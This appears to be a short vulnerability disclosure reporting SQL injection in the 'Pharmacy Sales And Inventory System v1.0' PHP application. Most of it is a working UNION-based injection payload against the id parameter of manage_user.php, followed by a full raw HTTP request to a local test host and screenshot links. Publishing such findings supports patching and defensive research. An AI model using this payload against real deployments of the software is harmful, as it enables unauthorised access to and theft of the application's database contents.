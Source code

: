 # Pharmacy Sales And Inventory System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14500/pharmacy-sales-and-inventory-system-using-phpmysql-source-code.html

Vulnerability File: /pharmacy-sales-and-inventory-system/manage_user.php?id=

Vulnerability location: ip/pharmacy-sales-and-inventory-system/manage_user.php?id=, id

[+] Payload: /pharmacy-sales-and-inventory-system/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database()),NULL,NULL,NULL--  // Leak place ---> id

```sql
GET /pharmacy-sales-and-inventory-system/manage_user.php?id=-1+UNION+ALL+SELECT+NULL,GROUP_CONCAT(database()),NULL,NULL,NULL-- HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=4k3d5u023qn0eacroobson4prq
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/167059525-2af037b2-b0c1-4494-a05f-95d1c8cca062.png)

![image](https://user-images.githubusercontent.com/54017627/167059428-d903e9a2-84de-4454-8276-9712b7547882.png)
